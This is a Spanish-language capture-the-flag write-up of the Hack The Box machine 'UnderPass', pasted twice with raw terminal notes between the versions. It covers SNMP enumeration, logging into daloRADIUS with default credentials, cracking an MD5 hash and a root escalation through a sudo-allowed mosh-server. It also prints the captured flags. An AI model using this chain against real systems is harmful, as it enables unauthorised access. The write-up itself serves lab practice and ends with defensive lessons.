## 1. Introducción

**Dificultad:** Fácil  
**Dirección IP:** 10.10.11.48  
**Objetivo:** Obtener la bandera de usuario y la de root.  
**Herramientas utilizadas:** nmap, snmp-check, gobuster, hashid, john the ripper  

En este writeup, compartiré el proceso que seguí para comprometer la máquina **UnderPass** en Hack The Box. A través de la enumeración SNMP, la explotación de credenciales por defecto de *daloRADIUS*, y la escalada de privilegios utilizando *mosh-server*, logré obtener ambas flags.



## 2. Reconocimiento Inicial

En primer lugar guardé en la variable IP la IP del sistema objetivo y comprobé la conexión al mismo.



### 2.1. Escaneo de Puertos con Nmap

Comencé con un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé los siguientes comandos:

```bash
sudo nmap -Pn -sS 10.10.11.48 -oA scan_TCP
```


```bash
sudo nmap -p22,80 -sSCV 10.10.11.48 -oA scan_TCP_services
```


```bash
sudo nmap -sU -F 10.10.11.48 -oA scan_UDP
```


En los resultados, detecté abiertos los puertos:

- **22 (SSH)**
- **80 (HTTP)**
- **161 (SNMP)**

## 3. Enumeración de Servicios

### 3.1. Enumeración SNMP

Al ver que el puerto 161 estaba abierto, procedí a utilizar **snmp-check** para obtener información:

```bash
snmp-check -t 10.10.11.48
```
El escaneo reveló información interesante:

- **Hostname:** UnDerPass.htb (indicando que es el único servidor *daloRADIUS* en la red).
- **Sistema:** Linux underpass 5.15.0-126-generic (Ubuntu).
- **Contacto:** steve@underpass.htb.
- **Ubicación:** Nevada, U.S.A.



### 3.2. Investigación de daloRADIUS

Dado que el escaneo SNMP reveló que el servidor ejecutaba *daloRADIUS*, busqué más información sobre esta aplicación.



 Encontré su [página en GitHub](https://github.com/lirantal/daloradius) y su [wiki de instalación](https://github.com/lirantal/daloradius/wiki/Installation).

La wiki proporcionaba credenciales por defecto:

- **Usuario:** administrator  
- **Contraseña:** radius  



Además, mencionaba directorios de configuración que podrían estar expuestos.


### 3.3. Enumeración Web con Gobuster

Con esta información, ejecuté **gobuster** para buscar directorios expuestos:

```bash
gobuster dir -u http://10.10.11.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```



El escaneo encontró el siguiente directorio interesante:

- **/daloradius/app/operators/index.php**: Al intentar acceder, fui redirigido a un panel de login en **/daloradius/app/operators/login.php**.

### 3.4. Acceso al Panel de daloRADIUS

Probé las credenciales por defecto en el panel de login:

```
Usuario: administrator
Contraseña: radius
```



Para mi suerte, las credenciales funcionaron y tuve acceso al panel de administración. 



Dentro del panel, localicé la lista de usuarios y encontré un usuario llamado **svcMosh** con el siguiente hash de contraseña:

```
412DD4759978ACFCC81DEAB01B382403
```


## 4. Cracking del Hash y Acceso al Sistema

### 4.1. Identificación del Hash

Utilicé **hashid** para identificar el tipo de hash:

```bash
hashid 412DD4759978ACFCC81DEAB01B382403
```


El resultado indicó que se trataba de un hash **MD5**. 

### 4.2. Cracking con John the Ripper

Con la identificación del hash, procedí a crackearlo usando **John the Ripper** y el diccionario **rockyou.txt**:

```bash
john --format=raw-md5 --wordlist=/home/kali/rockyou.txt hash.txt
```

En pocos segundos, John reveló la contraseña:

```
underwaterfriends
```



### 4.3. Acceso Vía SSH

Con las credenciales del usuario **svcMosh**, intenté conectarme al servicio SSH de la máquina:

```bash
ssh svcMosh@10.10.11.48
```

Ingresé la contraseña **underwaterfriends** y logre acceder exitosamente. 



### 4.4. Obtención de la Flag de Usuario

Una vez dentro, navegué hasta el directorio personal del usuario y encontré el archivo **user.txt**:

```bash
cat /home/svcMosh/user.txt
```

La flag de usuario era:

```
f7515bf03b0af43a7fd6e9fe5a872906
```



## 5. Escalada de Privilegios

### 5.1. Verificación de Permisos Sudo

Para explorar posibles caminos de escalada de privilegios, comprobé los comandos que el usuario svcMosh tiene permiso para ejecutar con privilegios elevados mediante sudo. Ejecuté:

```bash
sudo -l
```

El resultado mostró que el usuario **svcMosh** podía ejecutar el comando **/usr/bin/mosh-server** sin contraseña:

```
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```


### 5.2. Explotación de mosh-server

Revisé la ayuda de **mosh-server**


Descubrí que el parámetro `--server` permitía la ejecución de comandos arbitrarios. Aproveché esto para obtener una shell como root:

```bash
mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1
```


Al ejecutar el comando, obtuve acceso root. Verifiqué mi identidad con:

```bash
id
```

La salida confirmó que ahora era **root**. 



## 6. Obtención de la Flag de Root

Comprobé el contenido de la carpeta con 

```bash
ls -lisah
```

Obtuve el fichero `root.txt` que contenía la flag de root.



La flag de root era:

```
7998aa1e4a318a736bd8aa02ab54b779
```

## 7. Conclusión

El compromiso de la máquina **UnderPass** se logró combinando la enumeración SNMP y la explotación de configuraciones inseguras en *daloRADIUS*. La presencia de credenciales por defecto y el mal uso de permisos sudo en **mosh-server** facilitaron el acceso al sistema y la escalada de privilegios.

**Lecciones aprendidas:**  
- Siempre desactivar o proteger servicios como SNMP en entornos de producción.
- Cambiar las credenciales por defecto tras la instalación de cualquier software.
- Revisar cuidadosamente los permisos sudo, especialmente para comandos que pueden ser explotados para obtener acceso root.
## 8. Referencias

- [SNMP-Check Documentation](https://tools.kali.org/information-gathering/snmp-check)  
- [daloRADIUS GitHub](https://github.com/lirantal/daloradius)  
- [daloRADIUS Wiki de Instalación](https://github.com/lirantal/daloradius/wiki/Installation)  
- [Gobuster Documentation](https://github.com/OJ/gobuster)  
- [John the Ripper Documentation](https://www.openwall.com/john/)  
- [HashID Documentation](https://github.com/blackploit/hash-identifier)  
- [mosh-server Documentation](https://mosh.org/)


export IP=10.10.11.48
                                                                          
ping -c2 $IP                          

PING 10.10.11.48 (10.10.11.48) 56(84) bytes of data.
64 bytes from 10.10.11.48: icmp_seq=1 ttl=63 time=1710 ms
64 bytes from 10.10.11.48: icmp_seq=2 ttl=63 time=749 ms

--- 10.10.11.48 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1023ms
rtt min/avg/max/mdev = 749.176/1229.594/1710.013/480.418 ms, pipe 2

sudo nmap -Pn -sS $IP -oA scan_TCP

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-04 04:31 EST
Nmap scan report for 10.10.11.48
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds


┌──(kali㉿kali)-[~/Desktop/HTB/UnderPass]
└─$ sudo nmap -sU -F $IP -oA scan_UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-04 04:39 EST
Nmap scan report for 10.10.11.48
Host is up (0.97s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 114.38 seconds


snmp-check $IP                                   
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 02:47:39.74
  Uptime system                 : 02:47:26.38
  System date                   : 2025-2-4 09:50:35.0


UnDerPass.htb is the only daloradius server in the basin!


export IP=10.10.11.48
ping -c2 $IP 
sudo nmap -Pn -sS $IP -oA scan_TCP
sudo nmap -p22,80 -sSCV $IP -oA scan_TCP_services
sudo nmap -sU -F $IP -oA scan_UDP


mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1


Aquí tienes el esquema final actualizado con la técnica de escalada de privilegios mediante **mosh-server** y la obtención de la flag de root:
### **HTB: UnderPass Writeup**  
### **1. Introducción**  
- **Nivel de dificultad:** Fácil  
- **Dirección IP:** 10.10.11.48  
- **Objetivo:** Obtener la bandera de usuario y la de root.  
- **Herramientas utilizadas:** *nmap, snmp-check, gobuster, hashid, john the ripper*  
- **Breve resumen:** En este writeup, describimos cómo comprometer la máquina **UnderPass** utilizando la enumeración SNMP, la explotación de credenciales por defecto de *daloRADIUS*, el cracking de un hash MD5 para obtener acceso SSH y la explotación del servicio **mosh-server** para escalar privilegios a root.
### **2. Reconocimiento Inicial**  
#### **2.1. Escaneo de Puertos con Nmap**  
- **Escaneo TCP completo:**  
```bash
sudo nmap -Pn -sS 10.10.11.48 -oA scan_TCP
```
  - *Resultados:* Detección de puertos abiertos como 22 (SSH) y 80 (HTTP).

- **Escaneo de servicios específicos (SSH y HTTP):**  
```bash
sudo nmap -p22,80 -sSCV 10.10.11.48 -oA scan_TCP_services
```
  - *Resultados:* Identificación de servicios corriendo en esos puertos.

- **Escaneo rápido de puertos UDP:**  
```bash
sudo nmap -sU -F 10.10.11.48 -oA scan_UDP
```
  - *Resultados:* Descubrimiento del servicio SNMP en el puerto 161.
### **3. Enumeración de Servicios**  
#### **3.1. Enumeración SNMP**  
- **Comando utilizado con snmp-check:**  
```bash
snmp-check -t 10.10.11.48
```
- **Resultados obtenidos:**  
  - **Hostname:** *UnDerPass.htb* (único servidor *daloRADIUS* en la red).  
  - **Sistema:** *Linux underpass 5.15.0-126-generic (Ubuntu)*.  
  - **Contacto:** *steve@underpass.htb*.  
  - **Ubicación:** *Nevada, U.S.A.*  

- **Análisis:**  
  - El hostname reveló la presencia de *daloRADIUS*, un software de gestión de servidores RADIUS.

#### **3.2. Investigación de daloRADIUS**  
- **Búsqueda de información sobre daloRADIUS:**  
  - Encontramos una [página en GitHub](https://github.com/lirantal/daloradius) que dirigió a la [wiki de instalación](https://github.com/lirantal/daloradius/wiki/Installation).

- **Descubrimiento de credenciales por defecto:**  
  - **Usuario:** `administrator`  
  - **Contraseña:** `radius`  

- **Identificación de directorios de configuración:**  
  - Rutas como `/daloradius/` y `/config/` nos llevaron a usar *gobuster* para explorar posibles directorios expuestos.
### **4. Explotación**  
#### **4.1. Enumeración de Directorios con Gobuster**  
- **Comando utilizado:**  
```bash
gobuster dir -u http://10.10.11.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
- **Resultados obtenidos:**  
  - **/daloradius/app/operators/index.php**: Página que redirige a un panel de login.  
  - **/daloradius/app/operators/login.php**: Panel de autenticación donde usamos las credenciales por defecto.

#### **4.2. Acceso al Panel de daloRADIUS**  
- **Credenciales usadas:**  
    ```plaintext
    Usuario: administrator
    Contraseña: radius
    ```
- **Acción:**  
  - Accedimos al panel en `http://10.10.11.48/daloradius/app/operators/login.php`.

#### **4.3. Obtención de Información Crítica del Panel**  
- Dentro del panel de administración, localizamos una lista de usuarios registrados en el sistema.  
- **Usuario encontrado:** `svcMosh`  
- **Hash de contraseña:** `412DD4759978ACFCC81DEAB01B382403`  

#### **4.4. Identificación y Cracking del Hash**  
- **Identificación del hash con hashid:**  
```bash
hashid 412DD4759978ACFCC81DEAB01B382403
```
  - El hash fue identificado como **MD5**.

- **Cracking del hash con John the Ripper:**  
```bash
john --format=raw-md5 --wordlist=/home/kali/rockyou.txt hash.txt
```
  - **Contraseña obtenida:** `underwaterfriends`
### **5. Obtención de Acceso al Sistema**  
#### **5.1. Acceso vía SSH**  
- Usamos las credenciales obtenidas para conectarnos al servicio SSH en la máquina objetivo:  
```bash
ssh svcMosh@10.10.11.48
```
- **Credenciales:**  
  - **Usuario:** `svcMosh`  
  - **Contraseña:** `underwaterfriends`

#### **5.2. Obtención de la Flag de Usuario**  
- Navegamos al directorio del usuario para obtener la flag:  
```bash
cat /home/svcMosh/user.txt
```
- **Flag de Usuario:**  
```
f7515bf03b0af43a7fd6e9fe5a872906
```
### **6. Escalada de Privilegios**  
#### **6.1. Enumeración de Permisos Sudo**  
- Verificamos los permisos sudo del usuario `svcMosh`:  
```bash
sudo -l
```
- **Resultado:**  
```
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

#### **6.2. Explotación de mosh-server para Escalada**  

- Al revisar la ayuda de **mosh-server**, descubrí que el parámetro `--server` permite ejecutar comandos. Aproveché esto para obtener una shell con privilegios de root.

- **Comando para obtener una shell como root:**  
```bash
mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1
```

- Verificación acceso como root:  
```bash
id
```
  - **Salida esperada:** `root`

### **7. Captura de la Flag de Root**  

- Navegué al directorio `/root` para obtener la flag de root:  
```bash
cat /root/root.txt
```
- **Flag de Root:**  
```
7998aa1e4a318a736bd8aa02ab54b779
```





### **8. Conclusión**  
- **Resumen de los pasos clave:**  
  - La enumeración SNMP y la explotación de credenciales por defecto de *daloRADIUS* me permitieron acceder al panel, donde obtuve el hash del usuario `svcMosh`. Tras crackear el hash con **John the Ripper**, accedí vía SSH y escalé privilegios a root explotando el parámetro `--server` de **mosh-server**.  
- **Lecciones aprendidas:**  
  - La importancia de limitar los permisos sudo y revisar cuidadosamente las opciones de comandos que pueden ser explotadas para obtener privilegios elevados.  
- **Recomendaciones:**  
  - Restringir el uso de comandos peligrosos en configuraciones de sudo y aplicar el principio de privilegios mínimos.
### **9. Referencias**  
- [SNMP-Check Documentation](https://tools.kali.org/information-gathering/snmp-check)  
- [daloRADIUS GitHub](https://github.com/lirantal/daloradius)  
- [daloRADIUS Wiki de Instalación](https://github.com/lirantal/daloradius/wiki/Installation)  
- [Gobuster Documentation](https://github.com/OJ/gobuster)  
- [John the Ripper Documentation](https://www.openwall.com/john/)  
- [HashID Documentation](https://github.com/blackploit/hash-identifier)  
- [mosh-server Documentation](https://mosh.org/)